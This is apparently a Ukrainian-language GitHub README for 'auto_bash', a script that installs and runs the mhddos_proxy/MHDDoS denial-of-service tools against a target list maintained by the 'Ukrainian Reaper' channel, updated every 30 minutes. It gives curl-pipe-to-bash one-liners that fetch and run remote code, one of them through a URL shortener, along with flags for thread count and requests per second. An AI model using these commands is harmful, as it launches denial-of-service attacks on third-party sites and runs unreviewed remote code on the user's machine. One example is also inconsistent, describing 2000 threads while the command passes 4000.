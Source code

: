 ## 🪖 Bash скрипт (Windows, Linux, WSL2, Віртуальна машина)  

## ❕Опис

### auto_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 30 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04+ або Debian 11+. Але повинно працювати на всіх Debian похідних, наприклад Kali, а також у WSL2.

Для зупинки скрипта закрийте вікно з терміналом.

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`. Значення потрібно підбирати індивідуально, цифри нижче лише для прикладу. В більшості випадків рекомендується не змінювати значення параметру і використовувати команду по замовчуванню.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s --  500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/bash/auto_bash.sh | bash -s --  4000
```


## ❕ Передача параметрів
```
curl -L tiny.one/autobash-test | bash -s -- -t 1000 -r 2000 -k 1 --table
```

`-t 1000` - 1000 тредів

`-r 2000` - 2000 rpc

`-k 1` - kill 1 hour. Завершити скрипт через 1 годину роботи

`--table` - увімкнути режим відображення данних в таблиці


## Зупинка скрипту

1. Або просто зачинити термінал.

2. Або в іншому терміналі виконати `pkill -f start.py; pkill -f runner.py` а потім натиснути CTRL+C у терміналі з скриптом.

## Запуск на Windows у powershell.

Потрібна лише Windows 7 або вище. Усе інше скрипт зробить самостійно.

https://github.com/mErlin-sp/mhddos_powershell

## Встановлення на Windows.

[Инструкція по встановленнию Python3 і Git на Windows](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27). Не тестувалось на сумісність з auto_bash. Дозволяє як мінімум запускати mhddos_proxy командами які надаються в каналі [українського женця](https://t.me/ukrainian_reaper_ddos). У випадку помилок можна написати по координатах, залишених в кінці інструкції.
